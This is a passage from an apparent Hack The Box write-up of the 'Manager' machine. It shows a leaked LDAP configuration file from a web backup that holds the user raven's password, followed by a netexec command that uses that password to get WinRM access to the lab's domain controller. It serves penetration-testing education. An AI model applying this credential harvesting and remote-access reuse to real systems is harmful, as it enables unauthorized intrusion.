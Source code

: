      extracting: webbackup/images/next-white.png  
      inflating: webbackup/images/offer-img.jpg  
      inflating: webbackup/images/prev.png  
     extracting: webbackup/images/prev-white.png  
     extracting: webbackup/images/quote.png  
     extracting: webbackup/images/s-1.png  
     extracting: webbackup/images/s-2.png  
     extracting: webbackup/images/s-3.png  
     extracting: webbackup/images/s-4.png  
     extracting: webbackup/images/search-icon.png  
      inflating: webbackup/index.html    
      inflating: webbackup/js/bootstrap.js  
      inflating: webbackup/js/jquery-3.4.1.min.js  
      inflating: webbackup/service.html  
    

The first file, `.old-conf.xml` is interesting. It has an LDAP configuration
for the raven user including a password:

    
    
    <?xml version="1.0" encoding="UTF-8"?>
    <ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
       <server>
          <host>dc01.manager.htb</host>
          <open-port enabled="true">389</open-port>
          <secure-port enabled="false">0</secure-port>
          <search-base>dc=manager,dc=htb</search-base>
          <server-type>microsoft</server-type>
          <access-user>
             <user>raven@manager.htb</user>
             <password>R4v3nBe5tD3veloP3r!123</password>
          </access-user>
          <uid-attribute>cn</uid-attribute>
       </server>
       <search type="full">
          <dir-list>
             <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
          </dir-list>
       </search>
    </ldap-conf>
    

### WinRM

The LDAP enumeration showed that raven is in the Remote Management Users
group, which means they should be able to WinRM. `netexec` confirms, and that
this password works:

    
    
    oxdf@hacky$ netexec winrm manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
    WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
    WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
    